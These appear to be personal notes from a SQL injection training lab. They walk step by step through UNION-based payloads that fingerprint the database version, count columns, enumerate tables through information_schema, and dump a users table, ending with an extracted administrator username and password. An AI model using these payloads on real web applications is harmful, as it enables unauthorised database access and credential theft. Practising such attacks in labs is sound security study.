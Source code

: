 # Preliminary Work
    - Test if SQL Injection is possible
        -- idk come back to it 
    - Get the SQL Version
        -- ' UNION SELECT @@version
        -- [Oracle] '+UNION+SELECT+*+FROM+v$version OR '+UNION+SELECT+BANNER+NULL+FROM+v$version
        -- SELECT version()
    - Determine number of columns needed for UNION
        -- ' ORDER BY (number)--
            -- stop when you get an error
        -- ' ORDER BY 3-- yielded error so we know there are 2 columns
            -- ALL tables have 2 columns
    - Determine which columns can handle text (to display juicy info)
        -- ' UNION SELECT 'a',NULL,NULL,...--
            -- some SQL versions use # for comments
        -- ' UNION SELECT 'a',NULL-- ||| ' UNION SELECT 'a','a'-- both worked
            -- both columns support text (good news for username and passwords)

# Looking Through the Database (non-Oracle)
    -- See which tables actually exist
        -- ' UNION SELECT table_name,NULL FROM information_schema.tables--
    -- Look through list of tables in response to find promising stuff
        -- First Try: pg_user
        -- Second Try: user_mappings
        -- Third Try: pg_user_mappings
        -- Fourth Try: pg_user_mapping
        -- Fifth Try: users_rhfkhb
            -- used CTRL-F with "users" to look through response
    -- Get the columns (and data type) from that table
        -- ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'pg_user'--
        -- Columns: username_noyyxs | password_eyqvvd
    -- Get data from columns
        -- ' UNION SELECT username_noyyxs,password_eyqvvd FROM users_rhfkhb--
        -- Admin account info:
            uname: administrator
            pword: a6s5xe68qyib407piczf





